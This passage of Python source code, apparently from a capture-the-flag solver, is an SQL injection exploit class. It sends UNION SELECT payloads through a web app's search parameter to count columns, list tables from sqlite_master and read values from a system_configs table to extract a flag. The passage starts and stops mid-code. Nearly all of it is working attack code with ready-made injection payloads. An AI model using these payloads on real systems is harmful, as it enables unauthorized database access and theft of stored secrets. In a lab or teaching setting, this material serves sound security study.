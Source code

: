 ```python
        
        for i in range(1, 10):
            null_values = ", ".join(["NULL"] * i)
            payload = f"' UNION SELECT {null_values}--"
            
            response = self.session.get(f"{self.base_url}/?search={quote(payload)}")
            
            if "error" not in response.text.lower():
                print(f"[+] Found {i} columns in the query")
                return i
        
        return None
    
    def enumerate_tables(self):
        """Enumerate all tables in the database"""
        print("[*] Enumerating database tables...")
        
        payload = "' UNION SELECT 1, name, sql, 'LOW', type FROM sqlite_master WHERE type='table'--"
        response = self.session.get(f"{self.base_url}/?search={quote(payload)}")
        
        # Extract table names from response
        tables = re.findall(r'<td[^>]*>([^<]+)</td>', response.text)
        unique_tables = list(set([t for t in tables if t not in ['1', 'LOW', 'table']]))
        
        print(f"[+] Found tables: {unique_tables}")
        return unique_tables
    
    def extract_flag(self):
        """Extract the flag from the system_configs table"""
        print("[*] Extracting flag from system_configs table...")
        
        payload = "' UNION SELECT id, config_name, config_value, 'LOW', is_secret FROM system_configs--"
        response = self.session.get(f"{self.base_url}/?search={quote(payload)}")
        
        # Look for flag pattern
        flag_match = re.search(r'sscit\{[^}]+\}', response.text)
        if flag_match:
            flag = flag_match.group(0)
            print(f"[+] Flag found: {flag}")
            return flag
        
        # Alternative: look for system_key configuration
        if "system_key" in response.text:
            print("[+] Found system_key configuration!")
            print("Response content:")
            print(response.text)
            return True
            
        return None
    
    def exploit(self):
        """Main exploitation flow"""
        print(f"[*] Starting exploitation of {self.base_url}")
        
        if not self.test_sql_injection():
            print("[-] SQL injection vulnerability not found")
            return False
        
        columns = self.determine_columns()
        if not columns:
            print("[-] Could not determine column count")
```